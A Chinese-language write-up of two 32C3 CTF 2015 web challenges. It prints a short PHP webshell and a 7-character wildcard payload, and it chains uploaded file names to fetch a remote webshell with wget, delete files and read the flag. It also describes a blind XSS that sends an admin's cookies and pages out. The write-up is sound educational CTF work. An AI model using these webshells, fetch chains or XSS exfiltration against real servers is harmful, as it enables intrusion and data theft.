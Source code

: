 # 32C3 CTF 两个Web题目的Writeup

0x00 简介
=======

* * *

作为一个销售狗，还能做得动Web题，十分开心。 这次搞了两个题目，一个是TinyHosting，一个是Kummerkasten。

0x01 TingHosting
================

* * *

> A new file hosting service for very small files. could you pwn it?  
> http://136.243.194.53/

可以首先在页面中发现一个隐藏的src参数，在URL里加上?src=1之后可以返回出页面的源代码。

![p1](http://drops.javaweb.org/uploads/images/7c22d09f36e3e6151d1f7b4c19d66e61824ec8e1.jpg)

大概的意思就是说可以往服务器上传任意文件名的文件，不过每个文件的内容只有有7个字符那么长。

于是首先google了一下，最短的php webshell应该是14字符的这个：

```
<?=`$_GET[1]`;

```

(PS：原文的该代码被转意过了,若有错误...见谅.

显然不够长啊。

后来脑洞了很多，想到了可爱的`*`，于是很重要的payload是：

```
z.php

```

内容为：

```
<?=`*`;

```

刚好七个字符，不多不少，能把当前目录下的所有玩意按顺序执行一遍。

于是就要构造一些执行链了，一开始的想法是：

```
busybox ftpget two.dog w.php z.php

```

其中前4个文件内容随意，w.php是上面的关键payload，执行w.php后其内容被我服务器上的webshell覆盖，而获取webshell。

结果悲剧的发现`busybox ftpget`支持的host只能是ip，而不支持域名。

后来想通过wget来构造，利用了302跳转可以跨协议的特点。

```
wget wtf.two.dog z.php

```

前两个文件人意内容，z.php为重要payload，即可拿下webshell。

但仔细一看，这题会在每一个人的目录下创建一个`index.html`，于是执行链被破环没法工作。

于是使用bash来先干掉index.html

构造：

```
bash bb index.html z.php

```

其中bash内容随意，bb的内容为`rm ./*`不超过7个字符。然后再通过上面的方法即可获得一个webshell，然后在根目录发现一个flag。

![p2](http://drops.javaweb.org/uploads/images/604bd18efdd39e53a6438c29e895a24da86a531c.jpg)

之后看了老外的做法真是简单好用，就利用bash、bb和z.php，bb的内容分别为`ls /`,`cat /f*`,简单直接0 0

0x02 Kummerkasten
=================

* * *

> Our Admin is a little sad this time of the year. Maybe you can cheer him up at this site http://136.243.194.46/  
> Please note: This challenge does not follow the flag format.
> 
> Hints:  
> To build the flag, concatenate both parts and omit '32C3_'

进去之后只有一个提交留言的地方，四下看了看没发现别的东西，感觉和XSS会有关。

直接丢了一个盲打cookie的payload之后收到了回显：

![p3](http://drops.javaweb.org/uploads/images/da1b2704307eefd41837e5ae4dfed2f2ed8f8ffc.jpg)

访问过去是403，感觉需要用XSS来读一下页面的内容。

本来的思路是XSS里带上jQuery然后用jQuery操作，结果发现页面里面有，太方便了。

直接用ajax可以轻松读取页面并回传。

看到了`/admin/bugs`和`/admin/token`

根据页面中的信息来看，关键是要读两个png图片回来。

最后的payload如下：

![p4](http://drops.javaweb.org/uploads/images/d05b040e3d005c9d16e22404269b76710a9f0f72.jpg)

然后把两个图里的内容，一个mysql的password和一个6位数字拼起来就是FLAG咯。

0x03 Other
==========

更多的writeup可以参考如下链接：

[https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/web](https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/web)